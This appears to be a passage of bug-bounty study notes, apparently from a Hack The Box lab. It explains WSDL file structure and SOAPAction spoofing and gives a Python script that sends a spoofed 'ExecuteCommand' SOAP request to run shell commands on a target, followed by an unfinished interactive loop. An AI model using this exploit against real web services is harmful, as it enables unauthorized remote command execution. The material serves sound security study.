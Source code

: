 ```shell-session
		<wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
			<soap:address location="http://localhost:80/wsdl"/>
		</wsdl:port>
	</wsdl:service>
</wsdl:definitions>
```
This mess is a WSDL file.

**Note**: WSDL files can be found in many forms, such as `/example.wsdl`, `?wsdl`, `/example.disco`, `?disco` etc. [DISCO](https://docs.microsoft.com/en-us/archive/msdn-magazine/2002/february/xml-files-publishing-and-discovering-web-services-with-disco-and-uddi) is a Microsoft technology for publishing and discovering Web Services.

This file follows the [WSDL version 1.1](https://www.w3.org/TR/2001/NOTE-wsdl-20010315) layout and consists of the following elements.

- Definition - `<wsdl:definitions>` Root element of all WSDL files. Contains the name of the web serivces, all namespaces across the WSDL and all other service elements.
- DataTypes - `<wsdl:types>`
- Messages - defines the messages to be exchanged.
- Operation - defines the available SOAP actions alongside the encoding of each message.
- Port type: Encapsulates every possible input and output message into an operation. It defines the web service, available operations, and the exchanged messages.
- Binding - Binds the operation to a particular port type. Bindings are like interfaces. So bindings provide web service access details.
- Service - a Client makes a call to the web service through the name of the service specified in the service tag.

## [[Cybersecurity/Bug Bounty Hunter/Simple Object Access Protocol\|SOAP]] Action Spoofing

SOAP messages toward a SOAP servuce should include the operation and the related parameters. If submitted via HTTP, it can have an additional HTTP header called SOAPAction, which contains the operations name.

If a web service considers only the SOAPAction attribute when determining the operation to execute then it may be vulnerable to SOAPAction spoofing.

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

Here we specify _LoginRequest_ in `<soap:Body>` so that our request goes through as pertending to be inside. We then specify the parameters of the execute command so that we can execute a command.

We can automate this script like so:
```python
import requests
import re

tgt = input('What is the target? ')
cmd = '$'
print('Type \'exit\' to exit.')
while cmd != 'exit':
    cmd = input("$ ")
    if cmd == 'exit':
       break 
```